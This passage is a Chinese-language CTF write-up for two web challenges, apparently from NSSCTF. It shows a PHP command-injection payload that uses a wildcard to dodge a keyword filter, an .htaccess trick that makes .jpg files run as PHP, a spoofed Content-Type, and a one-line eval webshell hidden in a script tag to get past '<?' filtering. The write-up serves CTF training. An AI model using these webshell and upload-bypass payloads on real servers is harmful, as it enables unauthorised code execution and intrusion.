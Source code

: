 故构造 `?get=system("lsflag/");` 列出根目录文件

![screen-capture](https://nssctf.wdf.ink/img/yxy/9e8278893f554e4279681b837fd1c676.png)

发现flag，尝试打开，但是题目中出现flag则会替换为空格，提供以下思路

- shell变量拼接：`$s=fl;$c=ag;$s$c` 原则上可行，但长度超过限制
- 通配符：* 通杀，全部打开

故构造payload： `?get=system("catflag/*");` 得到falg

<br/>

### Ez_upload

文件上传题，先burp抓个包再说

大致思路：

- 传php木马
- 蚁剑连

考点：==文件上传== ==过滤== ==一句话木马变种== ==.htaccess配置文件==

![screen-capture](https://nssctf.wdf.ink/img/yxy/985256b32bc74626794421a136428953.png)

未知上传检测，通过对后缀，文件头，MIME的测试，发现对后缀、MIME有检测

![screen-capture](https://nssctf.wdf.ink/img/yxy/61ab1748d743f45094a1191e932b7a70.png)

故`Content-Type: image/jpeg` ，但php/phtml文件无法直接上传，故尝试.htaccess

传入配置： `AddType application/x-httpd-php .jpg` 将jpg当作php处理

![截图](https://nssctf.wdf.ink/img/yxy/fabc72a46ba6e1e0e59f5c73e7936957.png)

再传php马

![截图](https://nssctf.wdf.ink/img/yxy/6be1be86b8295bbc7afb1424c3e82b7f.png)

以失败告终，盲猜对文件内容也有检测

![截图](https://nssctf.wdf.ink/img/yxy/b2046b429b6b00f4c80829d0c79be109.png)

可以看到过滤了`<?` ，采取 script 标签，传入：`<script language="php">@eval($_POST['NSSCTF'])</script>`

![截图](https://nssctf.wdf.ink/img/yxy/92926407b33188f8183623f5b1f2ac8e.png)

蚁剑连

![截图](https://nssctf.wdf.ink/img/yxy/5ed96fbf8d9a2683e86ab933af9bb1a1.png)

按照惯例从根目录找flag

![截图](https://nssctf.wdf.ink/img/yxy/d6c4a6d1be5d03335a20fbd4767bf0e0.png)

然后你就被骗了，查查环境变量罢
